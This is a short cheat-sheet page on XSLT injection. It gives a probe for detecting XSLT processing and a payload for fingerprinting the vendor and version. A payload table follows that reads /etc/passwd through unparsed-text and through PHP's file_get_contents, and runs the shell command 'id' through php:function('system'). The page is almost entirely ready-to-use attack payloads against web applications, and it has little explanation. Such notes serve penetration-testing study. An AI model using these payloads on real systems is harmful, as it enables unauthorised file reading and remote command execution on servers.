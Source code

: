 ## XSLT Injection
>**ℹ️ Info:**
>
>To check if XSLT is present we can input a `<` to provoke an error.
>
>We can gather some basic info with the following payload:
>
>```xml
>Version: <xsl:value-of select="system-property('xsl:version')" />
><br/>
>Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
><br/>
>Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
><br/>
>Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
><br/>
>Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
>```

### XSLT Injection Payloads  

| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | Read file |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | Read file |
| `<xsl:value-of select="php:function('system','id')" />` | Execute a command |